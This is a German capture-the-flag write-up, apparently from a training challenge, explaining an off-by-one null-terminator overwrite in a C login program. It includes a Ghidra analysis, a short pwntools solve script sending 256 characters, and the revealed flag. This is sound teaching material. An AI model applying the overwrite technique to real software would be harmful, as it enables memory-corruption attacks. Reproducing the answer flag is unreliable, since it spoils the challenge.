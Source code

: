 # Tag 01 Benutzerregistrierung

![](images/01-01.png)

In dieser Challenge konnte durch einen Fehler beim Einlesen einer Variablen eine andere lokale Variable überschrieben werden. Wenn diese Variable den Wert 0 enthält, gibt das Programm die flag aus.

## Was geschieht bei der Ausführung des Programms?

Bei Ausführung des Programms wird ein Benutzername und ein Passwort abgefragt. Sind diese falsch, wird angegeben, dass kein Zugriff auf geschützte Informationen stattfinden kann.

Das Ziel ist also vermutlich, auf diese geschützten Informationen (also die Flag) zugreifen zu können.

```bash
└─$ ./main
/////////////////////////////////////////////////
// Willkommen zur neuen Benutzerregistrierung. //
// Trag Benutzernamen und Passwort ein, um auf //
// den geschützten Bereich zuzugreifen.        //
/////////////////////////////////////////////////

Dein Benutzername:
ich
Dein Passwort:
12345


Deine Benutzerdetails
=====================
Name:        ich                             
Passwort:    12345                                                                                                                                                                                                                                                           
Flag:        Kein Zugriff auf geschützte Informationen. Viel glück beim nächsten Mal. 
```

## Analyse mit ghidra

Zu Beginn des Programms wird die lokale Variable mit 1 initialisiert, danach wird sie nicht verändert.
![](images/01-02.png)

Anschließend wird geprüft, ob die Variable 0 ist. Falls sie 0 ist, wird die flag ausgegeben.
![](images/01-03.png)

Das Einlesen des Passworts ist auf 256 character-Zeichen begrenzt, hier kann also kein Buffer Overflow durchgeführt werden.
![](images/01-04.png)

Die Variable "input_password" ist ebenfalls 256 Zeichen groß. Da C Strings null-terminiert (das bedeutet, dass das letzte Zeichen immer 00 ist), und sowohl die Anzahl der eingelesenen Zeichen als auch die Variable gleich groß sind, wird 00 in den nächsten Speicherbereich geschrieben.

![](images/01-05.png)

Da die Variable "lokale_Variable_test" die nächste Variable ist, wird diese durch 00 überschrieben, solange alle möglichen 256 Zeichen des Passworts eingegeben werden.

## Python script

In diesem solve-Skript ist nun die Anzahl der Zeichen beim Einlesen des Passworts wichtig. Hier sende ich 256 Zeichen (hier "0"), damit die gesamte Variable "input_password" gefüllt wird.

Da C dies als String einliest (da der format specifier "s" ist), wird nach der Eingabe 00 in die Variable "lokale_Variable_test" geschrieben.

Die if-Abfrage, ob "lokale_Variable_test" `\0` ist, ergibt nun also true und die Flag wird ausgegeben.

```python
import pwn

p = pwn.process("./main_static")

p.recvuntil("Dein Benutzername:")
p.sendline("ich")
p.recvuntil("Dein Passwort:")
p.sendline("0"*256)
p.interactive()
```

Die flag lautet: `flag{0ff_by_0n3_1s_a_re4l_issu3!}`
